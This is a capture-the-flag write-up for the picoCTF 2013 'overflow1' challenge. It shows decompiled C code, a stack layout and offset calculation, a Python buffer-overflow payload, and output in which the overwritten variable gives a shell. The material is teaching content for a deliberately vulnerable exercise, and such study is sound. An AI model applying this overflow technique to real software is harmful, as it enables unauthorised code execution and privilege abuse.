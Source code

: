 ### S0lv3d by H4yicl3

First i download source here:https://2013.picoctf.com/problems/overflow1-3948d17028101c40

then i use IDA to analysis the code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v4; // ST1C_4@3

  if ( argc == 2 )
  {
    v4 = geteuid();
    setresuid(v4, v4, v4);	<-----setresuid() function
    vuln(0, (char *)argv[1]);<----- vuln here
  }
  puts("Usage: stack_overwrite [str]");
  return 1;
}
```

the vuln function
```c
void __cdecl __noreturn vuln(int a1, char *src)
{
  char dest; // [sp+1Ch] [bp-4Ch]@1			//<---------- this is buffer
  int v3; // [sp+5Ch] [bp-Ch]@1 			//<----------v3 	

  v3 = a1;
  strcpy(&dest, src);
  dump_stack((int)&dest, 23, (int)&a1);
  printf("win = %d\n", v3);
  if ( v3 == 1 )							//<-----------if v3 =1
    execl("/bin/sh", "sh", 0);				//we have the shell
  else
    puts("Sorry, you lose.");
  exit(0);
}
```
So we need to overwrite the v3 = 1
```
|			|
|			|
|			|
|	v3		|-0000000C v3           dd ?
|		+	|
|		|	|
|		|	|
|	dest|	|-0000004C dest            db ?
```

offset = 0x4c(dest)-0xc(v3) = 0x40=64

the python script to change v3 become 1 look like
```python
padding ="A"*64
padding +="\x01"
print padding
```

try run it

```
./overflow1 $(python overflow1.py)
Stack dump:
0xfffb59a4: 0xfffb686a (second argument)
0xfffb59a0: 0x00000000 (first argument)
0xfffb599c: 0x0804870f (saved eip)
0xfffb5998: 0xfffb59c8 (saved ebp)
0xfffb5994: 0xf76ec000
0xfffb5990: 0xf75f7e07
0xfffb598c: 0x00000001
0xfffb5988: 0x41414141
0xfffb5984: 0x41414141
0xfffb5980: 0x41414141
0xfffb597c: 0x41414141
0xfffb5978: 0x41414141
0xfffb5974: 0x41414141
0xfffb5970: 0x41414141
0xfffb596c: 0x41414141
0xfffb5968: 0x41414141
0xfffb5964: 0x41414141
0xfffb5960: 0x41414141
0xfffb595c: 0x41414141
0xfffb5958: 0x41414141
0xfffb5954: 0x41414141
0xfffb5950: 0x41414141
0xfffb594c: 0x41414141 (beginning of buffer)
win = 1
$ whoami
hayicle
$ 
```
GLHF